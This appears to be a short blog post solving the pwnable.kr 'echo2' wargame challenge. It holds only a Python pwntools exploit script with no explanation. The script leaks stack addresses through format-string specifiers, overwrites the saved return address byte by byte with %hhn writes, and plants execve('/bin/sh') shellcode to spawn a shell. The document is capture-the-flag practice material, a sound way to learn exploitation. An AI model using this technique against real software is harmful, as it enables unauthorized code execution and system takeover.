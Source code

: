 ```yaml
---
layout: post
title: "pwnable-echo2"
date: 2016-01-31 00:04:14 +0800
comments: true
categories: 
---
```

'''python
from pwn import *
import re
import sys

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"



shellcode = shellcode.ljust((len(shellcode)/8 + 1) * 8, '\x90')
print len(shellcode)

p = remote('pwnable.kr', 9011)
#p = process('./echo2')
p.recvuntil('name?')
p.sendline('name')
def leak(i):
		p.recvuntil('>')
		p.sendline('2')
		p.sendline('%{0}$p'.format(i))
		data = p.recvuntil('exit')
		reo = re.compile('0x.*')
		try:
			addr = int(reo.findall(data)[0], 16) 
			return '0x%016x'%(addr)
		except:
			return '0x%016x'%(0)

if sys.argv[1] == '0':
	for i in range(30)[6::2]:
		print leak(i),
		print leak(i+1)

	

p.recvuntil('>')
p.sendline('2')
p.sendline('%21$p')
data = p.recvuntil('exit')
reo = re.compile('0x.*')
rip = int(reo.findall(data)[0], 16) - 224
print 'rip :',hex(rip)
#leak first
p.recvuntil('>')
p.sendline('2')
p.sendline('%47$p')
data = p.recvuntil('>')
reo = re.compile('0x.*')
addr = int(reo.findall(data)[0], 16)
b = addr & 0xffff
print '47'
print 'original:',hex(addr)
print 'b:',hex(b)

#leak 21
p.sendline('2')
p.sendline('%21$p')
data = p.recvuntil('exit')
addr = int(reo.findall(data)[0], 16)
a = addr & 0xffff
print '21'
print 'target addr context:',hex(addr)
print 'a:',hex(a)
differ = (b - a)/8
print 'differ: ',differ

def write_byte(address, cont):		#write one byte
	print 'address cont'
	print address.encode('hex'), cont.encode('hex')
	#leak first
	#print 'finall_____:',leak(47+differ)

	#change
	for i in range(8):
		p.recvuntil('>')
		p.sendline('2')
		p.sendline('%{0}d%21$hhn'.format(b - 4 + i))
		p.recvuntil('exit')
		p.recvuntil('>')
		p.sendline('2')
		if(u8(address[i: i+1]) == 0):
			p.sendline('%47$hhn'.format(u8(address[i: i+1])))
		else:
			p.sendline('%{0}d%47$hhn'.format(u8(address[i: i+1])))
		p.recvuntil('exit')
	#print 'finall_____:',leak(47+differ)

	#p.interactive()

	#write
	p.sendline('2')
	if(u8(cont) < 0xa):
		p.sendline('%{0}d%{1}$hhn'.format(u8(cont)+0x100, 47 + differ))
	else:
		print hex(u8(cont))
		p.sendline('%{0}d%{1}$hhn'.format(u8(cont), 47 + differ))
	p.recvuntil('exit')



def write_qword(address,cont):
	for i in range(8):
		write_byte(p64(address + i), cont[i: i+1])

write_qword(rip, p64(0x6020a8))
for i in range(len(shellcode)/8):
	write_qword(0x6020a8 + i*8, shellcode[8*i: 8*i + 8])




p.interactive()
'''
